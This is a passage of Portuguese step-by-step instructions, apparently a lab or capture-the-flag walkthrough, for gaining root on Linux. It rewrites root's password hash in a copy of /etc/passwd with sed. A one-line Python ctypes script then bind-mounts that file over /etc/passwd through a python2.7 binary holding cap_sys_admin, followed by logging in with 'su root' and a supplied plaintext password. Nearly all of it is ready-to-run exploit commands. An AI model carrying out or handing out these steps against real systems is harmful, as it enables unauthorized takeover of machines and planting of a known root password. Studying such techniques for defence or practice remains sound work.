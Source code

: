 
### 3. Edite o arquivo copiado

Como você não tem `nano` nem `vim`, use o `sed` para trocar o hash da linha `root:`:

```bash
sed -i 's|^root:[^:]*:|root:$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0:|' /tmp/passwd
```

Verifique:

```bash
head -n 1 /tmp/passwd
```

Deve aparecer:

```
root:$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0:0:0:root:/root:/bin/bash
```

---

### 4. Crie o exploit para montar `/tmp/passwd` sobre `/etc/passwd`

```bash
echo 'import ctypes; ctypes.CDLL("libc.so.6").mount("/tmp/passwd", "/etc/passwd", None, 4096, None)' > /tmp/exploit.py
```

---

### 5. Execute com o Python que tem a capability

```bash
/usr/bin/python2.7 /tmp/exploit.py
```

---

### 6. Teste o login como root

```bash
su root
```

Senha:

```
vert16xx
```

Se funcionar, você é root de verdade.

---

## Por que agora deve funcionar?

- Você **realmente alterou a linha do root** com `sed`, em vez de criar do zero
    
- Usou **mount bind** com a flag `4096`, como no HackTricks
    
- E executou o Python certo (`/usr/bin/python2.7`) com `cap_sys_admin+ep`
